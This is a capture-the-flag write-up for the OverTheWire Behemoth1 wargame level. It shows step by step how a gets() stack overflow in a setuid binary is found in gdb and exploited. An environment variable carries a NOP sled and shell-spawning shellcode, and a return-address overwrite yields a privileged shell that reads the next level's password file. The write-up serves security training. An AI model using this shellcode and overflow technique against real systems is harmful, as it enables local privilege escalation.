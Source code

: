 #Behemoth1

behemoth.labs.overthewire.org

**Username:** behemoth1
**Password:** see [behemoth0](https://github.com/Alpackers/CTF-Writeups/tree/master/Misc/OverTheWire/Behemoth/Behemoth0)
**Description:**  

This wargame deals with a lot of regular vulnerabilities found commonly 'out in the wild'. While the game makes no attempts at emulating a real environment it will teach you how to exploit several of the most common coding mistakes including buffer overflows, race conditions and privilege escalation. 

##Write-up

Let's go ahead and see what we're working with:

```
# file behemoth1 
behemoth1: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=6b301db8057be8df8ceead844e81f05764289f92, not stripped
```
```
# ~/checksec.sh --file behemoth1 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   behemoth1
```

The binary is pretty much the same and we know that there are no security features enabled.  Let's look at the execution.

```
# ./behemoth1
Password: AAAAAAAAAA
Authentication failure.
Sorry.
```

Basically looks like [behemoth0](https://github.com/Alpackers/CTF-Writeups/tree/master/Misc/OverTheWire/Behemoth/Behemoth0).  Let's crack it open with a disassembler and look at main.

```asm
             main:
0804845d         push       ebp                                                 ; XREF=_start+23
0804845e         mov        ebp, esp
08048460         and        esp, 0xfffffff0
08048463         sub        esp, 0x60
08048466         mov        dword [ss:esp], 0x8048530                           ; "Password: ", argument "format" for method j_printf
0804846d         call       j_printf
08048472         lea        eax, dword [ss:esp+0x1d]
08048476         mov        dword [ss:esp], eax                                 ; argument "str" for method j_gets
08048479         call       j_gets
0804847e         mov        dword [ss:esp], 0x804853c                           ; "Authentication failure.\\nSorry.", argument "s" for method j_puts
08048485         call       j_puts
0804848a         mov        eax, 0x0
0804848f         leave      
08048490         ret        
                        ; endp
```

Ok, this is kind of weird.  It looks like the input read in isn't really stored anywhere and it immediately prints out ```Authentication failure``` after the call to ```j_gets```.  Let's stuff a bunch of data in the input and cross our fingers.

```
# python -c 'print "A"*300' | ./behemoth1
Password: Authentication failure.
Sorry.
Segmentation fault
```

Ah, ok, something to focus on.  Let's have a look in ```gdb```.

```
# python -c 'print "A"*300' > input
# gdb behemoth1
(gdb) run < input
Starting program: /root/CTF/OverTheWire/behemoth/behemoth1 < input
Password: Authentication failure.
Sorry.

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```

So we now know that we have control of the application, let's try to pinpoint where in our input is controlling that location.

```
# python -c 'print "A"*70' > input
# gdb behemoth1
ing program: /root/CTF/OverTheWire/behemoth/behemoth1 < input
Password: Authentication failure.
Sorry.
[Inferior 1 (process 20488) exited normally]
```

```
# python -c 'print "A"*80' > input
# gdb behemoth1
(gdb) run < input
Starting program: /root/CTF/OverTheWire/behemoth/behemoth1 < input
Password: Authentication failure.
Sorry.
>
Program received signal SIGSEGV, Segmentation fault.
0xf7e20042 in ?? () from /lib/i386-linux-gnu/i686/cmov/libc.so.6
```

```
# python -c 'print "A"*82' > input
# gdb behemoth1
(gdb) run < input
Starting program: /root/CTF/OverTheWire/behemoth/behemoth1 < input
Password: Authentication failure.
Sorry.
>
Program received signal SIGSEGV, Segmentation fault.
0x00414141 in ?? ()
```

```
# python -c 'print "A"*83' > input
# gdb behemoth1
(gdb) run < input
Starting program: /root/CTF/OverTheWire/behemoth/behemoth1 < input
Password: Authentication failure.
Sorry.
>
Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```

Ok, so at ```83``` we have completely overwritten that space.  Now we need to figure out how to deliver the shellcode.  Since nothing appears to actually be stored anywhere this could be tricky.  How about we try an reuse some of the things we learned in the [narnia](https://github.com/Alpackers/CTF-Writeups/tree/master/Misc/OverTheWire/Narnia/) challenges.  First off, let's try to pull of the same feat as [narnia8](https://github.com/Alpackers/CTF-Writeups/tree/master/Misc/OverTheWire/Narnia/Naria8) and use an environment variable to store the shellcode.  We learned in that challenge that the address will change outside of ```gdb```, so let's go ahead and stuff some ```nop``` values in there for a slide back down to the shellcode.

```
behemoth1@melinda:/behemoth$ export EGG=$(python -c 'print "\x90"*100+"\x31\xdb\x8d\x43\x17\x99\xcd\x80\x31\xc9\x51\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x8d\x41\x0b\x89\xe3\xcd\x80"')
behemoth1@melinda:/behemoth$ gdb behemoth1
(gdb) break * 0x08048479
Breakpoint 1 at 0x8048479
(gdb) run
Starting program: /games/behemoth/behemoth1 
>
Breakpoint 1, 0x08048479 in main ()
(gdb) x/s *((char **)environ)
0xffffd835:	"XDG_SESSION_ID=1977"
(gdb) x/s *((char **)environ+1)
0xffffd849:	"SHELL=/bin/bash"
(gdb) x/s *((char **)environ+2)
0xffffd859:	"TERM=xterm"
(gdb) x/s *((char **)environ+3)
0xffffd864:	"SSH_CLIENT=68.1.62.184 48350 22"
(gdb) x/s *((char **)environ+4)
0xffffd884:	"SSH_TTY=/dev/pts/3"
(gdb) x/s *((char **)environ+5)
0xffffd897:	"LC_ALL=C"
(gdb) x/s *((char **)environ+6)
0xffffd8a0:	"EGG=", '\220' <repeats 100 times>, "\061\333\215C\027\231\315\200\061\311Qhn/shh//bi\215A\v\211\343\315\200"
̀"
```

Ok, now we have our shellcode loaded and we know it will be somewhere around ```0xffffd8a0```.  Let's start brute forcing that address and see if we can hit our slide.

```
behemoth1@melinda:/behemoth$ python -c 'print "A"*79+"\xa0\xd8\xff\xff"' | ./behemoth1
Password: Authentication failure.
Sorry.
Segmentation fault
```

```
behemoth1@melinda:/behemoth$ python -c 'print "A"*79+"\xb0\xd8\xff\xff"' | ./behemoth1
Password: Authentication failure.
Sorry.
```

Ok, that one is different...but no command prompt.  It seems like we hit our shellcode so let's try a few things.  If you remember back to [narnia0](https://github.com/Alpackers/CTF-Writeups/tree/master/Misc/OverTheWire/Narnia/Naria0) we had a similiar problem where we should have gotten a prompt but the program just exited.  Let's try to use the tricks we learned there.  We'll use the bash subshell command by wrapping the input being piped in with parenthesis and then concatenate the printed input with the ```cat``` command to try and force the prompt to stay open.

```
behemoth1@melinda:/behemoth$ (python -c 'print "A"*79+"\xb0\xd8\xff\xff"';cat) | ./behemoth1
Password: Authentication failure.
Sorry.
whoami
behemoth2
cat /etc/behemoth_pass/behemoth2
**********
```

Sweet.  I enjoyed this one since we got to reach back and utilize a lot of the methods that were learned in the previous series.  Now behemoth2.
